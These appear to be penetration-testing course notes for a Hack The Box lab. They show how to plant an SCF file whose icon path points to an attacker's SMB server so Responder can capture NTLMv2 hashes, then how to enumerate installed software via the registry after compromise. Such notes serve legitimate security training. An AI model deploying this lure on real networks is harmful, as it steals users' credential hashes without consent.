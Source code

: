 # Additional Techniques

## **SCF on a File Share**

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share.

```
[Shell]
Command=2
IconFile=\\\\10.10.14.3\\share\\legit.ico
[Taskbar]
Command=ToggleDesktop
```

we will create above scf file named `@Inventory.scf` pointing to our SMB server. we can then capture the NTLMv2 hash

```
dollarboysushil@htb[/htb]$ sudo responder -wrf -v -I tun0
```

Create smb server.

## **Pillaging**

Pillaging is the process of obtaining information from a compromised system.

#### **Get Installed Programs via PowerShell & Registry Keys**

```powershell
PS C:\\htb> $INSTALLED = Get-ItemProperty HKLM:\\Software\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\\htb> $INSTALLED += Get-ItemProperty HKLM:\\Software\\Wow6432Node\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\* | Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\\htb> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize

DisplayName                                         DisplayVersion    InstallLocation
-----------                                         --------------    ---------------
Adobe Acrobat DC (64-bit)                           22.001.20169      C:\\Program Files\\Adobe\\Acrobat DC\\
CORSAIR iCUE 4 Software                             4.23.137          C:\\Program Files\\Corsair\\CORSAIR iCUE 4 Software
Google Chrome                                       103.0.5060.134    C:\\Program Files\\Google\\Chrome\\Application
Google Drive                                        60.0.2.0          C:\\Program Files\\Google\\Drive File Stream\\60.0.2.0\\GoogleDriveFS.exe
Microsoft Office Profesional Plus 2016 - es-es      16.0.15330.20264  C:\\Program Files (x86)\\Microsoft Office
Microsoft Office Professional Plus 2016 - en-us     16.0.15330.20264  C:\\Program Files (x86)\\Microsoft Office
mRemoteNG                                           1.62              C:\\Program Files\\mRemoteNG
TeamViewer                                          15.31.5           C:\\Program Files\\TeamViewer
...SNIP...
```
